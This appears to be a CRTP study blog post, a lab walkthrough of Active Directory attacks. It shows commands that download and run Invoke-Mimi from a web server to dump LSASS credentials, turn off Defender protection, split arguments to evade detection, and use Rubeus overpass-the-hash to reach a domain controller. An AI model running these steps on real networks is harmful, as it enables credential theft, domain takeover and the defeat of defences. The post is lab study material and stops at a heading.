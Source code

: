```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:41:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


### 5. Extract Credentials from LSASS (Invoke Mimikatz)

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```jsx
---
Invoke-Command -ScriptBlock {$env:username;$env:computername}    -ComputerName dcorp-mgmt
---
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```jsx
---
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
---
```

# 6. Using OverPass-the-Hash (Rubeus)

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```jsx
---
ArgSplit.bat

#Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
---
```


```jsx
---
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
---
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```jsx
---
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
---
```

# 7. Domain Admin Escalation using Derivative Local Admin (Find-PSRemotingLocalAdminAccess.ps1)


```jsx
---
 Find-PSRemotingLocalAdminAccess
---
```

Bypassing Applocker
